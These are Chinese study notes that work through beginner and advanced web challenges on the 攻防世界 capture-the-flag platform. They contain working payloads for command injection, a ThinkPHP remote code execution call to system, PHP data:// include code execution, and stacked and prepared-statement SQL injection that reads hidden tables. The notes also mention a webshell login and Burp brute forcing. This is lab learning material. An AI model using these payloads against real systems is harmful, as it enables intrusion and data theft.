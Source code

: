 #攻防世界：新手：web（续）
Xff_referer
Xff-客户端-http请求端真实ip
Http referer -header的一部分-浏览器向web服务器发送请求（从哪里而来）

WebShell
Web php 管理面板 蚁剑登录 查看网站目录

Command_execution
对命令没有过滤
waf：Web应用防护系统
推测应该是在 ping的过程中 夹杂了其他的命令 导致 文件泄漏。 也就是命令执行漏洞。
命令截断
127.0.0.1;find / -name flag.txt 
然后127.0.0.1; cat /home/flag.txt

Simple js
无论输入什么，dechiffre函数都会返回pass
十六进制转字符串
document.write(String.fromCharCode())

***
#***高手进阶区：***

Baby web
index一般为页面默认页（自动跳转）
火狐-f12-网络-index.php-响应头-flag


training-www-robots
url后加robots.txt 发现fl0g.php
url路径 访问fl0g php

Php_rce
rce(远程代码执行漏洞)
payload：查找flag
index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "flag"
查看flag：cat /flag

Web php include
使用data://伪协议
data://text/plain,xxx(数据)
data://text/plain;base64,xxxx(base64编码后的数据)
?page=data://text/plain,<?php system("ls")?>
?page=data://text/plain,<?php system("cat fl4gisisish3r3.php")?>(执行完后flag在控制台源码中)
/ post php伪协议大小写绕过


Supersqli：堆叠注入、MySQL预编译
1' and '1'='1发现正常输出
1' and '1'='2发现没有输出，
联合注入，输入1' union select 1 
堆叠注入
1';show databases;#
1';show tables;#
1';show columns from words;#
1';show columns from `1919810931114514`;#
预编译：
1';prepare pre from concat('s', 'elect * from `1919810931114514`');execute pre;#

ics-06
burp进行id爆破 送分题


